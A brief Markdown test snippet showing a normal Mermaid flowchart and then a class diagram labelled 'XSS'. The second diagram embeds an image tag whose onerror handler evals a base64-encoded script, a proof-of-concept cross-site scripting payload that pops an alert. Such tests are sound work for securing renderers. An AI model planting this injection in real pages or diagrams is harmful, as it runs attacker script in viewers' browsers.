

Example Mermaid:

```mermaid
graph TD;
    A-->B;
    A-->C;
    B-->D;
    C-->D;
```

XSS: 

```mermaid
classDiagram
x <|-- `<img src onerror=eval(atob("YWxlcnQoJ1hTUyBhdCAnK2xvY2F0aW9uKQ"))>`
```

